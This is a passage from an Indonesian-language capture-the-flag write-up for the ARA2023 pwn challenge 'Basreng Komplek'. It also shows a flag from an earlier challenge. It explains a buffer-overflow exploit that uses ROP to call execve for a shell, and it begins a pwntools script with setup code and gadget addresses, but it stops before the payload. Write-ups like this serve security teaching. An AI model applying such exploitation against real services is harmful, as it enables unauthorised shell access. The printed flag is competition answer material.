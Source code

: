 ![](https://i.imgur.com/FMPyvGA.png)

Flag: ARA2023{H3ad_1s_ImP0rt4Nt}

# PWN
## Basreng Komplek
### Description
aku suka basreng. apalagi kalau di bawain dari bogor sama ka Aseng. #ARA2023

Connection: nc 103.152.242.116 20371 File

### Technical Review
Kita diberikan source code dan juga ip port dari server. Untuk eksploitasi challenge ini kita perlu memanfaatkan vulnerability buffer overflow untuk melakukan rop dan meng-call syscall execve untuk mendapatkan shell.

### Solution
Untuk menyelesaikan challenge tersebut saya menggunakan script berikut:

```python 
from pwn import *
import sys

BINARY = "vuln"
context.binary = exe = ELF(BINARY, checksec=False)
context.terminal = "konsole -e".split()
context.log_level = "INFO"
context.bits = 64
context.arch = "amd64"


def init():
    if args.RMT:
        p = remote(sys.argv[1], sys.argv[2])
    else:
        p = process()
    return Exploit(p), p


class Exploit:
    def __init__(self, p: process):
        self.p = p

    def debug(self, script=None):
        if not args.RMT:
            if script:
                attach(self.p, script)
            else:
                attach(self.p)

x, p = init()
# 0x00000000004011f9: pop rsi; pop r15; ret; 
pop_rsi = 0x00000000004011f9
pop_rdi = 0x00000000004011fb

x.debug((
    # "b *main+38\nc"
    "b *b\nc"
    # f"b *{pop_rsi}\nc"
))

```
